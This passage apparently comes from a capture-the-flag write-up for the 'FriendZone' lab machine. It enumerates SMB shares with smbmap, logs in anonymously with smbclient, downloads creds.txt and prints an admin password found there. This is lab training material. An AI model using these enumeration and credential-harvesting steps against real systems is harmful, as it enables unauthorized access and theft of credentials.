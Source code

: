 Now we can list files from the shares with `-r`

``` shell

# smbmap -H 10.10.10.123 -r
[+] Guest session       IP: 10.10.10.123:445    Name: 10.10.10.123                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        .\general\*
        dr--r--r--                0 Thu Jan 17 04:10:51 2019    .
        dr--r--r--                0 Thu Jan 24 05:51:02 2019    ..
        fr--r--r--               57 Wed Oct 10 07:52:42 2018    creds.txt
        Development                                             READ, WRITE     FriendZone Samba Server Files
        .\Development\*
        dr--r--r--                0 Mon Oct 26 16:22:37 2020    .
        dr--r--r--                0 Thu Jan 24 05:51:02 2019    ..
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))



```

The clear stand-out file is `creds.txt`, lets take a look:

``` shell

#smbclient -U "" //10.10.10.123/general
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jan 17 04:10:51 2019
  ..                                  D        0  Thu Jan 24 05:51:02 2019
  creds.txt                           N       57  Wed Oct 10 07:52:42 2018

                9221460 blocks of size 1024. 6460324 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
b3nny@kali:~$ cat creds.txt 
creds for the admin THING:

admin:WORKWORKHhallelujah@#


```

